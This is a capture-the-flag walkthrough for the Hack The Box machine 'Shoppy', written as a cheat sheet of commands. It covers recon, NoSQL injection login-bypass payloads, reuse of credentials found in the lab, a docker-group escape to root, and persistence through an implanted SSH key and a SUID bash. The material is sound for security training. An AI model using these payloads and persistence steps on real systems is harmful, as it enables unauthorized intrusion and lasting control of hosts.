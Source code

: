 # 🛍️ HTB: Shoppy – Command & Exploitation Guide

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.180
nmap -p 22,80,9093 -sCV 10.10.11.180
```

### Hosts File
```bash
echo "10.10.11.180 shoppy.htb mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

### Subdomain Fuzzing
```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://shoppy.htb
```

---

## 🔑 NoSQL Auth Bypass

### Target: `/login`
**Bypass Payload (URL-Encoded or Raw)**:
```bash
username=admin'||'a'=='a&password=admin
```

**Headers**:
```http
Content-Type: application/x-www-form-urlencoded
```

### Dump Users via Injection:
```bash
username=admin' || 1==1 //&password=123
```

### Decode MD5 Hash on [CrackStation](https://crackstation.net)

---

## 💬 Mattermost Access

### Use Found Creds
- **User**: josh
- **Pass**: `remembermethisway`

### Locate SSH Creds for `jaeger` in "Deploy Machine" Channel:
- `user: jaeger`
- `pass: Sh0ppyBest@pp!`

---

## 🔐 [SSH](SSH) Access

```bash
sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
```

---

## 🧑‍💼 PrivEsc to Deploy

### Sudo Check
```bash
sudo -l
```

### Path Found
```bash
sudo -u deploy /home/deploy/password-manager
```

### Reverse Engineering

**Pull Binary:**
```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

**Extract Password:**
Use Ghidra OR:
```bash
strings -el password-manager
```

**Result**:
```text
Password: Sample
```

**Use it:**
```bash
sudo -u deploy /home/deploy/password-manager
# --> Deploying@pp!
```

**Switch User:**
```bash
su deploy
```

---

## 🐳 Root via Docker Group

### Confirm Docker Access
```bash
id
docker images
```

### Method 1: Mount Host Filesystem (Basic)
```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

### Method 2: chroot Escape to Host (Recommended)
```bash
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

### Get Flag
```bash
cat /root/root.txt
```

---

## 🪝 Optional Root Persistence

### SSH Access via Public Key (From Container)
```bash
mkdir /root/.ssh
echo "ssh-ed25519 AAAA...user@host" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### Or Make Bash SUID
```bash
chmod 4777 /bin/bash
bash -p
```

---

## 🔬 Beyond Root: NoSQL Injection Logic

### Original Code Equivalent:
```js
this.username == 'admin' || 'a'=='a' && this.password == 'pass'
```

### Precedence Breakdown:
```text
true || (true && false) => true
```